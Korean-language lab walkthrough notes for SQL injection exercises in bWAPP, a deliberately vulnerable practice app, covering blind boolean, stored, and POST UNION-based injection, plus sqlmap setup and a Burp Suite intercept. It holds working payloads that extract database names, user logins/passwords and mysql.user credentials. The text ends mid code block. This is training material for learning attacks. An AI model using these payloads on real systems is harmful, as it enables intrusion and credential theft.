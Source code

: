 ## [A1] SQL Injection - Blind - Boolean-Based>
  1. `'`를 입력하면 SQL syntax 에러가 나온다. (즉, SQL injection 공격이 가능함)
  1. "iron man"을 서치해 보면 DB에 있다고 나온다.
  1. 아래 형태로 입력하다가 (뒤 숫자가 틀리면 DB에 없다고 나옴) 숫자가 5가 되면 true가 되어 DB에 있다고 나온다. (즉, DB 이름이 **5**글자임)
     ```sql
     iron' or '1'='1' and length(database())=5#
     ```
  1. 아래와 같이 시도하면 true가 되어 DB에 있다고 나오고 DB 이름을 얻을 수 있다. (즉, **bwapp** 임)
     ```sql
     iron' or '1'='1' and substring(database(),1,1)='b'#
     iron' or '1'='1' and substring(database(),2,1)='w'#
     iron' or '1'='1' and substring(database(),3,1)='a'#
     iron' or '1'='1' and substring(database(),4,1)='p'#
     iron' or '1'='1' and substring(database(),5,1)='p'#
     ```

## [A1] SQL Injection - Stored (Blog)
  1. `'`를 입력하면 SQL syntax 에러가 나온다. (즉, SQL injection 공격이 가능함)
  1. 아래와 같이 입력하면 내용은 `hi`를 출력하고, Owner 정보에는 첫번째 유저의 login/password 정보가 출력된다.
     ```sql
     hi',(select concat(login, password) from users limit 0,1))#
     ```
  1. 마찬가지로 아래와 같이 입력하면 내용은 `hi`를 출력하고, Owner 정보에는 두번째 유저의 login/password 정보가 출력된다.
     ```sql
     hi',(select concat(login, password) from users limit 1,2))#
     ```
  1. 블로그 글을 모두 삭제하려면 `Reset` 탭을 누르면 된다.

## sqlmap 툴
  1. [sqlmap](http://sqlmap.org) 툴은 SQL injection 취약점을 penetration 테스트하여 SQL DB의 구조 파악, 테이블 내용 표시 등을 출력해주는 툴이다.
  1. Ubuntu의 경우 아래와 같이 설치한 후, 실행할 수 있다.
     ```sh
     $ sudo apt install sqlmap
     $ sqlmap
     ```
  1. 또는 소스를 직접 받으려면 아래와 같이 하면 된다. (Windows인 경우에도 이렇게 하면 됨)
     ```sh
     $ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
     $ python sqlmap.py
     ```
     > 단, 실행시키려면 파이썬 **2.6**이나 **2.7** 또는 **3.x** 버전이 설치되어 있어야 한다.

## [A1] SQL Injection (POST/Select)
  1. POST 방식이고 사용자 입력이 없는 경우이다.
  1. Burp Suite의 Proxy intercept 기능을 이용하여 캡쳐한다. (아래 예와 같이 나왔다고 가정)
     ```
     POST /bWAPP/sqli_13.php HTTP/1.1
     Cookie: PHPSESSID=bf571c656a20f5965696d759d1f260b7; security_level=0
     movie=1&action=go
     ```
     위의 정보로 cookie 값도 얻었고, POST 방식으로 `movie=1`과 같이 movie index 정보를 넘겨줌을 알 수 있다.
  1. DB 기본 정보를 얻기 위해 Burp Suite에서 movie 부분을 (위의 예제에서는 **1**) 아래 내용으로 대체한 후, **Forward** 시킨다.
     ```sql
     movie=0 UNION SELECT null, database(), @@version, @@datadir, null,null,null
     ```
     결과로 DB 이름, 버전, DB 경로가 출력된다.
     또, 아래와 같이 movie 내용을 대체하면, 호스트 이름, 사용자 이름, 비밀 번호가 출력된다.
     ```sql
     movie=0 UNION SELECT null, host,user,password,null,null,null FROM mysql.user